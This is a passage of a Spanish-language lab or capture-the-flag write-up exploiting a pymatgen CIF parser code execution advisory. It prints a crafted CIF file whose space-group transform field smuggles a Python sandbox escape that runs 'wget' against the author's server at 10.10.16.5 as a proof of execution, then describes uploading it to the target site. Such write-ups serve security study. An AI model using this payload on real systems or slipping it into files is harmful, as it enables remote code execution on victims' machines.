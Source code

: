 {% embed url="https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f" %}

En este ejemplo, para probar que la vulnerabilidad existe y podemos aprovecharnos de ella, lo que realizaremos es que haga una solicitud con la herramienta `wget` a nuestro servidor web que montaremos posteriormente y haga una llamada a un archivo que no existe. Esto con el objetivo de verificar si recibimos en nuestro servidor web la solicitud que realiza el equipo víctima a nuestro servidor.

```bash
❯ catnp test.cif
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("wget 10.10.16.5/test");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Procederemos a subir al sitio web el archivo `CIF` malicioso.

<figure><img src="../../.gitbook/assets/3586_vmware_DCQQJ3kRqt.png" alt=""><figcaption></figcaption></figure>
